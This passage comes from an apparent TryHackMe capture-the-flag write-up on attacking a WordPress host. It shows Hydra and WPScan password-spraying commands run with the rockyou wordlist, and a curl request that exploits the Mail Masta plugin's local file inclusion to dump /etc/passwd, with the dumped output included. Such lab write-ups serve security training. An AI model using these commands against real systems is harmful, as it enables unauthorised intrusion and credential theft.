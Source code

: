   * Vulnerable to [Local File Inclusion (LFI)](https://www.exploit-db.com/exploits/40290) public exploit listed on Exploit db.
> The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.
* Reflex Gallery 3.1.7.
  * No public exploits listed on Exploit db.
## Exploitation
### Initial Access
#### Password spray SSH using Hydra.
```
hydra -l elyana -P /usr/share/wordlists/passwords/rockyou.txt TARGET_IP -t 4 ssh -vV
```
  * THM target host timed out before completion.
#### Password spray WordPress using Hydra.
```
hydra -l elyana -P /usr/share/wordlists/rockyou.txt TARGET_IP http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2FTARGET_IP%2Fwordpress%2Fwp-admin%2F&testcookie=1:Error" -T 64 -vV
```
  * Aborted as too slow - max 4 parallel threads.
#### Password spray WordPress using WPscan.
```
sudo wpscan --password-attack xmlrpc -t 20 -U elyana -P /usr/share/wordlists/rockyou.txt --url http://TARGET_IP/wordpress/
```
  * THM target host timed out before completion.
#### Exploit Mail Masta LFI vulnerability.
> "pl" parameter allows inclusion of a file without any type of input validation or sanitisation. Can attempt to include arbitrary files on the webserver. E.g. display contents of /etc/passwd file using cURL.
```
curl -s http://TARGET_IP/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
  * `-s` 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
```